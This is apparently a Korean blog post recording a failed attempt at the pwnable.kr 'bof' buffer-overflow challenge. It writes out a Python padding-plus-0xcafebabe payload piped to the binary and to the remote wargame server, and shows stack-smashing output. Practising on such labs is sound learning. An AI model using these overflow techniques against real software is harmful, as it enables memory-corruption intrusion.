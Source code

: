 
그리고 이 친구를 oveflowme의 값으로 넣어줘 보자... 


    (python -c "print 'x'*48 + '\xbe\xba\xfe\xca'";cat) | ./bof

    (python -c "print 'x'*48 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000

왱ㅏㄴ대............. 

왜안대냑구.... 

<br>


window 이슈인가 싶어서 리눅스환경에서도 해봤다. 






    ┌[ccsss☮4664a647eaaa]-(~/aaa)
    └> ./bof
    overflow me : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx¾ºþÊ
    Nah..
    *** stack smashing detected ***: terminated
    [1]    408 abort      ./bof


에라이 안되네 

임의로 컴파일링 한 게 문제인 듯...
<br>
<br>

<hr/>

<br>
<br>



![none-success]()

<br>

    DOUMM.....



<br>
<br>
<br>


ㅜ-ㅠ




